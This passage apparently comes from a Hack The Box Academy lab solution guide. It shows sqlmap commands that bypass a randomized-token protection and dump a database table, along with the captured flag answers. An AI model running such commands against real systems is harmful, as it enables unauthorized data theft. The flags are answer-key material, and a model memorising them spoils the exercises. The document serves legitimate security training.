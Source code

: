 ![[HTB Solutions/CPTS/z. images/b6c3df01dec30be4b17910959dcdff62_MD5.jpg]]

Given that the `uid` is in the URL (students will have a different value for it), the `sqlmap` command becomes:

Code: shell

```shell
sqlmap -u "http://STMIP:STMPO/case9.php?id=1&uid=2946408471" --randomize=uid --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case9.php?id=1&uid=2946408471' --randomize=uid --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb
Table: flag9
[1 entry]
+----+---------------------------------------+
| id | content                               |
+----+---------------------------------------+
| 1  | HTB{700_much_r4nd0mn355_f0r_my_74573} |
+----+---------------------------------------+

<SNIP>
```

Answer: `HTB{700_much_r4nd0mn355_f0r_my_74573}`

# Bypassing Web Application Protections

## Question 3

### "What's the contents of table flag10? (Case #10)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #10" to notice that they need to exploit the `POST` parameter `id`:

![[HTB Solutions/CPTS/z. images/0fe36a0d3530883c315bdce0c781040b_MD5.jpg]]

Thus, the `sqlmap` command becomes:

Code: shell

